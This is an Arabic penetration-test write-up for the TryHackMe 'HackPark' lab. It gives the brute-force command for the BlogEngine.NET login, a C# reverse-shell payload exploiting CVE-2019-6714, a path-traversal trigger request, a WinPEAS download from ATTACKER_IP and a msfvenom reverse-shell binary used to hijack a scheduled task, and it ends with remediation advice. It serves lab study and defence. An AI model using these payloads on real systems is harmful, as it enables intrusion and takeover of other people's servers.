

# HackPark — تقرير اختبار الاختراق الشامل

[English Version](README.md) | [📖 قراءة التقرير بالعربية](README_AR.md)
[📄 تحميل التقرير الأصلي بصيغة DOCX](./HackPark_Pentest_Report_EN.docx)

---

## 📋 بطاقة الهدف والمعلومات العامة

| العنصر | التفاصيل |
| :--- | :--- |
| **اسم الماشين** | HackPark (منصة TryHackMe) |
| **نظام التشغيل** | Windows Server |
| **مستوى الصعوبة** | متوسط (Medium) |
| **نوع التقييم** | فحص تطبيقات الويب + تصعيد صلاحيات على أنظمة ويندوز |
| **أبرز الثغرات** | تخمين بيانات الاعتماد، رفع ملفات تعسفي (CVE-2019-6714)، مهام مجدولة ضعيفة الصلاحيات |
| **الوصول الأولي (Initial Access)** | ثغرة RCE في تطبيق BlogEngine.NET عبر `PostView.ascx` |
| **تصعيد الصلاحيات (PrivEsc)** | استغلال خدمة مجدولة ضعيفة الصلاحيات (`Message.exe`) -> `NT AUTHORITY\SYSTEM` |

---

## 🎯 مسار الهجوم (Attack Chain)



---

## 🔍 جدول ملخص الثغرات المكتشفة

| الثغرة | مستوى الخطورة | رقم الـ CVE | الخدمة المتأثرة | التأثير |
| :--- | :---: | :---: | :---: | :---: |
| **BlogEngine.NET Directory Traversal RCE** | حرج (Critical) | CVE-2019-6714 | BlogEngine.NET 3.3.7 (بورت 80) | تنفيذ أوامر عن بُعد بصلاحيات تطبيق الويب |
| **Weak Scheduled Service Permissions** | عالي (High) | خطأ إعدادات | خدمة `WSUService` (`Message.exe`) | تصعيد الصلاحيات إلى أعلى مستوى في ويندوز (SYSTEM) |
| **غياب الـ Rate Limiting في تسجيل الدخول** | متوسط (Medium) | CWE-307 | صفحة `/Account/login.aspx` | إمكانية تخمين كلمات المرور بدون حظر |

---

## 🛠️ خطوات الهجوم العملية (Technical Walkthrough)

### 1. الاستطلاع وفحص المنافذ (Reconnaissance)
بدأ الفحص باستخدام أداة `nmap` لاكتشاف المنافذ المفتوحة والخدمات:
```bash
nmap -sV -sC -p- -T4 <TARGET_IP>
```
* **المنافذ المكتشفة:**
  * `80/tcp`: خادم ويب Microsoft IIS يشغل تطبيق تدوين BlogEngine.NET بالإصدار 3.3.7.
  * `3389/tcp`: منفذ سطح المكتب البعيد (RDP).

### 2. تخمين بيانات الدخول (Brute-Forcing)
بالدخول على صفحة الويب، تم التعرف على صفحة تسجيل دخول الأدمن `/Account/login.aspx`.
باستخدام أداة `Hydra` وقائمة كلمات السر `rockyou.txt`:
```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt <TARGET_IP> http-post-form "/Account/login.aspx:__VIEWSTATE=...&ctl00\$MainContent\$LoginUser\$UserName=^USER^&ctl00\$MainContent\$LoginUser\$Password=^PASS^&ctl00\$MainContent\$LoginUser\$LoginButton=Log+In:Invalid username or password"
```
تم استخراج كلمة السر الصحيحة وتسجيل الدخول كـ `admin`.

### 3. استغلال ثغرة BlogEngine.NET والحصول على موطئ قدم (CVE-2019-6714)
إصدار BlogEngine.NET 3.3.7 مصاب بثغرة Directory Traversal في آلية معالجة الثيمات (Themes) تسمح بتنفيذ ملفات التحكم `.ascx`.

1. إنشاء ملف بايلود C# باسم `PostView.ascx` يحتوي على شل عكسي بصيغة PowerShell:
```csharp
<%@ Control Language="C#" AutoEventWireup="true" EnableViewState="false" %>
<%@ Import Namespace="System.Diagnostics" %>
<script runat="server">
protected void Page_Load(object sender, EventArgs e) {
    Process p = new Process();
    p.StartInfo.FileName = "cmd.exe";
    p.StartInfo.Arguments = "/c powershell -c "$c = New-Object System.Net.Sockets.TCPClient('ATTACKER_IP',4444);..."";
    p.Start();
}
</script>
```
2. رفع الملف عبر لوحة تحكم الأدمن في مسار المرفقات `App_Data/files/`.
3. تشغيل مستمع Netcat على جهاز المهاجم:
```bash
nc -lvnp 4444
```
4. إرسال طلب HTTP لتفعيل الثيم الخبيث:
```http
GET /?theme=../../App_Data/files HTTP/1.1
Host: <TARGET_IP>
```
تم استلام الشل بنجاح بصلاحيات المستخدم `iis apppool\defaultapppool`.

### 4. تصعيد الصلاحيات (Privilege Escalation)
1. رفع وتشغيل أداة **WinPEAS** لتعداد ثغرات الويندوز الداخلية:
```powershell
powershell -c "(New-Object Net.WebClient).DownloadFile('http://ATTACKER_IP/winPEASany.exe', 'C:\Temp\winPEAS.exe')"
C:\Temp\winPEAS.exe
```
2. كشفت الأداة عن وجود برنامج جدولة خارجي يسمى `SystemScheduler` يقوم بتشغيل ملف تنفيذي دورياً كل دقيقة بصلاحية `SYSTEM`:
   * المسار: `C:\Program Files (x86)\SystemScheduler\Message.exe`
   * المشكلة: تصريحات المجلد تسمح لجميع المستخدمين بالكتابة والتعديل (Writable by Everyone)!
3. صناعة ملف تنفيذي خبيث يحمل نفس الاسم باستخدام `msfvenom`:
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=5555 -f exe -o Message.exe
```
4. نقل الملف واستبدال الملف الأصلي في مسار البرنامج.
5. بمجرد حلول موعد تشغيل المهمة المجدولة، تم استلام شل فوري بصلاحيات المدير الأعلى `NT AUTHORITY\SYSTEM`.

---

## 🛡️ خطة المعالجة وسد الثغرات (Remediation)

1. **ترقية تطبيق BlogEngine:** التحديث الفوري إلى أحدث إصدار يعالج ثغرة مسارات الملفات (Path Traversal).
2. **تأمين لوحات التحكم:** تطبيق سياسات الحظر بعد عدد محدد من المحاولات الفاشلة (Account Lockout) وتفعيل المصادقة الثنائية (2FA).
3. **تصحيح أذونات الملفات في ويندوز (ACLs):** منع المستخدمين العاديين من الكتابة أو استبدال الملفات داخل مجلدات `Program Files`.
4. **تفعيل أنظمة مراقبة العمليات (EDR):** وضع تنبيهات فورية عند قيام خدمة IIS (`w3wp.exe`) بتشغيل موجه الأوامر `cmd.exe` أو `powershell.exe`.
